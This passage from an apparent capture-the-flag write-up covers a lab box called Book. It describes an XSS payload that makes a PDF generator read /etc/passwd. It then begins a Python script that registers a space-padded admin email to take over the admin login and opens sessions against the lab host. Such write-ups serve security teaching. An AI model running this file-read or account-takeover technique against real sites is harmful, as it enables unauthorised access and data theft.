 
Instead of changing one field, it re-writes the entire document to be the
contents of the given file, in this case, `/etc/passwd`. I submitted this as
the title, and a dummy author, and then loaded the PDF again:

![image-20200227222709043](https://0xdfimages.gitlab.io/img/image-20200227222709043.png)

The table with the XSS seems to reset every minute, clearing out the XSS,
which is actually good as I want to read multiple files, and don’t need them
stomping each other.

### Scripting File Read

#### Creating the Script

I didn’t really need to do this, but it was a fun exercise to put all this
together into a terminal script that allowed me to get files from Book. It
took a fair bit of playing around in Burp comparing Python requests with ones
made from Firefox to make sure I understood which headers mattered, and other
things like that. The script is:

    
    
    #!/usr/bin/python3
    
    import requests
    from cmd import Cmd
    from tika import parser
    
    
    class Terminal(Cmd):
        prompt = "book> "
        base_url = "http://10.10.10.176"
    
        def __init__(self):
            super().__init__()
            email = "0xdf@book.htb"
            password = "0xdf"
            self.user_sess = requests.session()
            #self.user_sess.proxies = {'http':'http://127.0.0.1:8080'}
            self.user_sess.get(f'{self.base_url}/index.php')
            self.user_sess.post(f'{self.base_url}/index.php', data=f"name=0xdf&email={email}&password={password}",
                    headers={'Content-Type': 'application/x-www-form-urlencoded'})
            resp = self.user_sess.post(f'{self.base_url}/index.php', data=f"email={email}&password={password}",
                    headers={'Content-Type': 'application/x-www-form-urlencoded'})
            if "Nope" in resp.text:
                print("[-] Failed to log in as user")
                exit()
            print(f"Session created as user: {self.user_sess.cookies['PHPSESSID']}")
    
            self.admin_sess = requests.session()
            #self.admin_sess.proxies = {'http':'http://127.0.0.1:8080'}
            self.admin_sess.get(f'{self.base_url}/index.php')
            self.admin_sess.post(f'{self.base_url}/index.php', data="name=0xdf&email=admin@book.htb                 .&password=0xdf",
                    headers={'Content-Type': 'application/x-www-form-urlencoded'})
            resp = self.admin_sess.post(f'{self.base_url}/admin/', data='email=admin%40book.htb&password=0xdf',
                    headers={'Content-Type': 'application/x-www-form-urlencoded'})
            if "Nope" in resp.text:
                print("[-] Failed to log in as admin")
                exit()
            print(f'Session created as admin: {self.admin_sess.cookies["PHPSESSID"]}')
    